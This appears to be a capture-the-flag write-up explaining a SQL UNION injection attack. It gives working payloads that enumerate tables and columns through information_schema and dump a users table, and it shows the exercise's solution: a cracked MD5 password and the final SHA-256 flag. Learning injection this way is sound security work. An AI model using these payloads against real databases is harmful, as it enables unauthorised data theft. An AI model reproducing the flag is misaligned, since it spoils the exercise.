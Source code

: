 # SQL UNION ATTACK
A union attack attempts to pull information from an additional table that is not the current table that is being queried.

### Step 1
> * Input is data search using ID's, try tentative search with integer and then without

### Step 2
> * Confirm SQL vulnerabitlity with 1 = 1 or 1

### Step 3
> * Attack
> 1. Confirm number off return columns and data types
 > * trial and error: 
> _1 = 1 or 1 ORDER BY 1_...  
> _UNION SELECT ‘a’,NULL_...
>
> 2. Find tables within current database  
 >_1 or 1 = 1 UNION SELECT 1,concat(table_name) FROM information_schema.tables WHERE table_schema = database()_  
>
> **users**
>
>3. Find columns within desired table  
 >_1 and 1=2 union select 1,group_concat(column_name) from information_schema.columns where table_schema = database()_
>
 >**user_id,first_name,last_name,town,country,planet,Commentaire,countersign**
>
>4. Find data  
 >_1 and 1=2 union select 1,concat(user_id,first_name,last_name,town,country,planet,Commentaire,countersign) from users_
>
 >**5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28**
>
 >_MD5 DECRYPT-> 5ff9d0165b4f92b14994e5c685cdce28 => FortyTwo_
>
 > _toLower -> FortyTwo => fortytwo_
>
 >_Sh256 ENCRYPT -> fortytwo => **10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5**_

https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
